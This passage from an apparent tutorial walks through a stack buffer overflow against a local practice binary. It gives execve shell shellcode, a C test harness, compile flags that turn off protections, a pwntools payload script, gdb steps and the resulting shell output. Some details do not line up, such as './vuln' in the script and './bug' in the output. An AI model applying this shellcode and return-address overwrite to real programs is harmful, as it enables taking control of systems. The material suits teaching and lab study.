 ```
pop rsi
mov 0x3b, al
syscall
```

We can test if the shellcode works via the following code. It first encodes and saves the shellcode as a char array, and then jumps to it as a function call.
```c
const char shellcode[] = "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";

int main (void) {
  char buf[256];
  int len = sizeof(shellcode);
  for(int i=0; i<len; i++)
	    buf[i] = shellcode[i]; 
      ((void (*) (void)) buf) ();
}
```
```shell
clang -fno-stack-protector –no-pie -z execstack shell.c -o shell
```

If it works, we can inject the shellcode to the vulnerable program.
```python
#! /usr/bin/env python
from pwn import *
# context.log_level = 'debug'

ret = 0x7fffffffe000
shellcode = b'\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05'
payload = shellcode + 'A' * (88-len(shellcode)) + p64(ret)
p = process("./vuln")
p.send(payload)
p.interactive()

```

You have to replace the return address based on your own computer. As a shortcut, you can print the address of `buf`.
```c
printf("buf address: %p\n", (void*)buf);
```

In practice, you can only analyze the address of buf via `gdb`.
```shell
gdb ./vuln
-> break *validation+31
-> run
-> x/64x $rsp
```

Execute the attacking code. If you are lucky enough, you should be able to obtain the following result.
```shell
python hijack.py 
[+] Starting local process './bug': pid 48788
[*] Switching to interactive mode
Input your key:Wrong key!
$ whoami
hui
$ 
```
